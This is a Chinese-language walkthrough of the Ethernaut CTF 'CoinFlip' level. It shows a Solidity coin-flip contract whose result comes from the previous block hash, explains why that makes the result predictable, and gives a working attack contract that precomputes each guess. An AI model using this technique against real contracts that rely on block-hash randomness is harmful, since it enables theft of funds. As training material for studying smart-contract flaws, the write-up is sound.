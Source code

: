 # 3. CoinFlip

### 原题
```
这是一个掷硬币的游戏，你需要连续的猜对结果。
完成这一关，你需要通过你的超能力来连续猜对十次。

``` 
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract CoinFlip {
    uint256 public consecutiveWins;
    uint256 lastHash;
    uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

    constructor() {
        consecutiveWins = 0;
    }

    function flip(bool _guess) public returns (bool) {
        uint256 blockValue = uint256(blockhash(block.number - 1));

        if (lastHash == blockValue) {
            revert();
        }

        lastHash = blockValue;
        uint256 coinFlip = blockValue / FACTOR;
        bool side = coinFlip == 1 ? true : false;

        if (side == _guess) {
            consecutiveWins++;
            return true;
        } else {
            consecutiveWins = 0;
            return false;
        }
    }
}
```
### 分析
不要被“连续10次猜中”这个要求吓到。平时我们玩硬币猜正反面，确实基本不大可能会连续10次可以都猜对。玩都是天意。我们看看代码，里面把计算方法都打明牌了，都是确定性的计算，也没有随机，这哪叫猜啊，这就是明牌斗地主。我们只要把他的计算过程，自己计算一遍，给出结果再给他，这样就可以把把都猜中了。没有随机数，计算结果可以复制的。就像小朋友捉迷藏，自己站在最明显的地方蒙着自己的眼睛叫人来找他！话不多说，下面就是攻击代码
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface  ICoinFlip {
    function flip(bool _guess) external  returns (bool);
}

contract CoinFlipAttack {
    ICoinFlip public coinflip;
    // 同样的factor
    uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

    constructor (address _coinflip) {
        coinflip = ICoinFlip(_coinflip);
    }

    function attack() public {
      // 同样的区块号计算
       uint256 blockValue = uint256(blockhash(block.number -1 ));

        uint256 coinFlip = blockValue / FACTOR;
        bool side = coinFlip == 1 ? true : false;
        // 必然返回同样的结果
        // 做的更完善的，可以自动猜，我为了演示，直接手动，偷懒
        coinflip.flip(side);
    }
}
```